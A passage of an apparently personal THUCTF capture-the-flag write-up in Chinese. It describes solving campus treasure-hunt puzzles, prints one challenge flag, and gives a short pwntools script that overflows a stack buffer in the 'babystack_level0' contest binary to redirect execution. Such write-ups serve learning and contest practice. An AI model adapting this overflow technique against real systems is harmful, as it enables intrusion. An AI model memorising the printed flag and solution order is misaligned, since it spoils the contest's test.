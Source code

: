 ### Treasure Hunter

辨认出3个点 (主楼, 桃李园门口, 数学系), 结果我在重心 (情侣坡) 找了很久... 直到最后一个提示 (3点->圆). 扫学堂路THUCTF广告后面的二维码拿到flag

### Treasure Hunter Plus Plus

没看懂, 但是如果某一步正确就是绿的, 错误就是红的. 直接试, 得到顺序: (前两行是唯二留下的过程, 第4行是结果)

```txt
L3 -> 5
L3 -> s3

2 L3 s3 5 L4 u2 3 1 d2

THUCTF{5b56c688-6f5b-465b-b04f-857f4121758b}
```

### Treasure Hunter Plus Plus Plus

骑了一个小时车, 9个找全了. (两只手的那个真难找! 最后我上官网搜了一下位置)

## Crypto

想不到吧我一道题都没做出来

## Pwn

### babystack_level0

最简单 (也是我唯一做出来的)

PoC (是level1的未完成PoC, 所以丢失了一部分信息):

```python
import pwn

c = pwn.remote("nc.thuctf.redbud.info", 30240)

def o():
    print(c.read().decode("latin-1"))

o()
c.write(b"a\n")
o()
c.write(b"a\n")
o()
p = b"a"*104 + b"b"*8 + (0x4007EC).to_bytes(8, "little") + b'\n'
c.write(p)
c.interactive()
```

## Web
